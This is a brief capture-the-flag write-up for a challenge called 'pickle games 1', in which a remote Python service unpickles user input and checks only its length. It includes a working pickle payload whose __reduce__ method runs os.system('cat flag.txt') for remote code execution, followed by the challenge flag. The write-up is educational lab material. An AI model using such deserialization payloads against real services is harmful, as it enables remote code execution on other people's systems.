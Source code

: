 # pickle games 1

## Description:

> Tags: easy

> Ever heard of the pickle games, they're very tasty!
Can you get RCE on the remote server?

> Author : chenx3n

> ncat -v --ssl pickle-games-1.challs.shellmates.club 443

> Files : [challenge.py](challenge.py)

## First thoughts:

The challenge is a Python Jail challenge, and from it's name, we know that's using `pickle` to evaluate our input.

## Reading the script:

Reading the script, we found that the input is passed to a `check` function, and it's only checking for thr length of the pickle. So a simple `pickle dump` with `__reduce__` method should solve the challenge.

## Solving the challenge:

I created the pickle with the following code:

```py
import pickle

class GetFlag():
    def __reduce__(self):
        command = ('cat flag.txt')
        return os.system, (command,)

pickled = pickle.dumps(GetFlag())
print(pickled.hex())
```

and the flag is:

```
shellmates{lEt_thE_piCkl3_gaMeS_BegiN!}
```